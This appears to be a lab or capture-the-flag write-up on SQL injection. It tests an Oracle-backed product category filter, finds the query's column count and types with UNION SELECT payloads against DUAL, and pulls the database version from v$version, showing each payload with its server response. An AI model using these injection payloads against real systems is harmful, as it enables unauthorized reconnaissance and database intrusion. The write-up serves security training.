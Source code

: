 # SQL injection, querying the database type and version on Oracle

### Goal:
`Display the database version`

### Info: The injection point is the product category filter
`target.com/filter?category=<input>`
### Info: The target is using an Oracle database
<br><br><br>

**<ins>Step 1: Test injection point</ins>**

category='

`500: server error`

category=Gifts'--

`200`
<br><br>

**<ins>Step 2: Enumerate data with UNION attack</ins>**<br><br>

Since the database is Oracle, we must use Oracle-specific syntax.<br><br>

category=' UNION SELECT NULL FROM DUAL--

`500 server error`<br><br>

category=' UNION SELECT NULL,NULL FROM DUAL--

`200`

This means that the query outputs two values
<br><br>

category=' UNION SELECT 'a','b' FROM DUAL--

`200`

This means that both values are strings. Knowing this, we can use either to output the desired data
<br><br>

**<ins>Step 2: Exploit the vulnerability</ins>**

category=' UNION SELECT banner,NULL FROM v$version--

`Success!`

In a normal request, the database would output a product's name and description. This query prompts it to return the database version instead of a name, giving us valuable information for further probing.